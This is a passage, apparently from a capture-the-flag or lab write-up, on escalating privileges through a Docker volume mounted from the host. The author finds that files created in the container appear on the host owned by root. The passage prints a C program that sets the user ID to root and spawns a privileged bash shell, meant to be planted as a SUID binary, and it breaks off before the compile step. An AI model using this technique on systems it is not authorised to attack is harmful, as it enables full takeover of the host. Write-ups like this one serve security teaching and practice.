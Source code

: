 ![container logs](./pic/container_logs.png)
	
![claier id](./pic/claire-id.png)
	
That must be a folder mounted to the container, lets create the file:
	
![root test](./pic/container_test.png)
	
![claire file](./pic/claire-file.png)
	
Not only we can create files from inside the docker to the host machine, the file we create are owned by root!<br>
Now we can try to create a root SUID file and executing it.<br>
On my local machine I wrote this script `test.c`:
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    setresuid(0,0,0);
    system("/bin/bash -p");
    return 0;
}
```
then compiled with: